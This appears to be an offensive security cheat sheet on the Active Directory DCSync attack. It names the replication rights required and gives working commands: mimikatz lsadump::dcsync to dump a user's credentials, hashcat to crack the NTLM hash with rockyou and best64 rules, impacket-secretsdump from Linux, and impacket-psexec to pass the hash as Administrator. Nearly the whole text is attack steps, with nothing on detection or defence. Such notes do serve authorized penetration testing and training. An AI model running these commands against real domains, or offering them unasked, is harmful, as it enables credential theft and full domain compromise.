 ## Domain Controller Synchronization
To launch this attack, must have the following rights:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set
By default, Domain Admins, Enterprise Admins and Administrators have these rights
### On Windows:
```
Launch powershell and run mimikatz

To obtain the credentials of a user
lsadump::dcsync /user:[domain\user]
------------------------------------------------------------
Extract the NTLM hash and put into a file called hashes.dcsync

To crack the hash:
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
-------------------------------------------------------------
### On Linux:
```
impacket-secretsdump -just-dc-user Administrator domainname/user:'password'@ip
```
## For the Admin NTLM Hash
```
If you can't crack, use impacket-psexec and pass the hash
impacket-psexec -hashes :[NT Hash] Administrator@[ip]
```